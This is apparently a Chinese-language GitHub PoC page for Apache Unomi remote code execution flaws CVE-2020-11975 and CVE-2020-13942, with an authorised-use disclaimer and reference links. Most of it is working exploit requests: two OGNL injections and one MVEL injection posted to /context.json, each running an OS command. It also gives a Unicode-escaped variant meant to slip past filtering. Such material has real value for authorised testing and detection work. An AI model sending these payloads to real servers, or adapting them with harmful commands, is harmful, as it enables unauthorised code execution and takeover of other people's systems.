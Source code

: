 ### 声明

此处提供的漏洞检测方法、文件等内容，均仅限于安全从业者在获得法律授权的情况下使用，目的是检测已授权的服务器的安全性。安全从业者务必遵守法律规定，禁止在没有得到授权的情况下做任何漏洞检测。

### 简介

* 参考链接
  * https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13942
  * https://securityboulevard.com/2020/11/apache-unomi-cve-2020-13942-rce-vulnerabilities-discovered/
  * http://unomi.apache.org/
  * [漏洞分析 - Apache Unomi RCE 第1篇 OGNL注入(CVE-2020-11975) - 先知社区](https://xz.aliyun.com/t/8564)
  * [漏洞分析 - Apache Unomi RCE 第2篇 OGNL/MVEL注入(CVE-2020-13942) - 先知社区](https://xz.aliyun.com/t/8565)


#### CVE-2020-11975

##### PoC: CVE-2020-11975 OGNL Injection

(这个PoC只支持检测版本 <= 1.5.0 , 建议使用后面CVE-2020-13942的2个PoC 支持检测版本 <= 1.5.1 )
```
POST /context.json HTTP/1.1
Host: localhost:8181
Connection: close
Content-Length: 749

{
  "personalizations":[
    {
      "id":"gender-test_anystr",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#r=@java.lang.Runtime@getRuntime()).(#r.exec(\"/System/Applications/Calculator.app/Contents/MacOS/Calculator\"))",
                  "comparisonOperator":"equals_anystr",
                  "propertyValue":"male_anystr"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"test-demo-session-id"
} 
```

#### CVE-2020-13942

##### PoC: HTTP request with OGNL injection

以下(PoC)HTTP请求中的OGNL表达式, 得到了`Runtime`并使用Java reflection API执行了一条OS命令.

```
POST /context.json HTTP/1.1
Host: localhost:8181
Connection: close
Content-Length: 1143

{
  "personalizations":[
    {
      "id":"gender-test_anystr",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2_anystr"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^  #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"/System/Applications/Calculator.app/Contents/MacOS/Calculator\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male_anystr"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"test-demo-session-id"
} 
```


变形: 可以做Unicode编码, 将payload中的字符变为`\uXXXX`格式. 同样可以成功.
```
// 如
// 把e替换为了\u0065
// 把.替换为了\u002e
(#runtim\u0065class = #this.getClass().forNam\u0065(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^  #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invok\u0065(null,null)).(#execmethod = #runtimeclass.getDeclar\u0065dMethods().{? #this.nam\u0065.\u0065quals(\"\u0065xec\")}.{? #this.g\u0065tParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod\u002einvok\u0065(#rtobj,\"/bin/bash -c $*|bash 0 /System/Applications/Calculator.app/Cont\u0065nts/MacOS/Calculator\"))
```




------


##### PoC: HTTP request with MVEL injection

以下(PoC)HTTP请求中的MVEL表达式创建了一个Runtime对象并运行OS命令.
```
POST /context.json HTTP/1.1
Host: localhost:8181
Connection: close
Content-Length: 564

{
    "filters": [
        {
            "id": "myfilter1_anystr",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"/System/Applications/Calculator.app/Contents/MacOS/Calculator\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "test-demo-session-id_anystr"
}
```
变形: 可以做Unicode编码, 将payload中的字符变为`\uXXXX`格式. 同样可以成功.
